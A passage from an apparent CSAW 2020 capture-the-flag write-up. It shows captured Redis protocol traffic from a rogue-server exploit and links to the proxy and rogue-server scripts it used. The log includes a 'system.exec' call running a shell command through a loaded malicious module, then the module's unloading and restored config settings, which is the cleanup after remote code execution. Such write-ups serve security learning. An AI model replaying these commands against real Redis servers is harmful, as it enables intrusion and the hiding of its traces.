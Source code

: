 ```python
[<<] ^C[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$4\r\n/app\r\n'
[->] b'+OK\r\n'
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$14\r\nrm /tmp/exp.so\r\n'
[->] b'$0\r\n\r\n'
[<-] b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
[->] b'+OK\r\n'
```

The full `redis-proxy.py` script is available at https://github.com/zoeyg/public-write-ups/blob/master/csaw-2020/redis-proxy.py, and the modified `redis-rogue-server.py` script is available at https://github.com/zoeyg/public-write-ups/blob/master/csaw-2020/redis-rogue-server.py.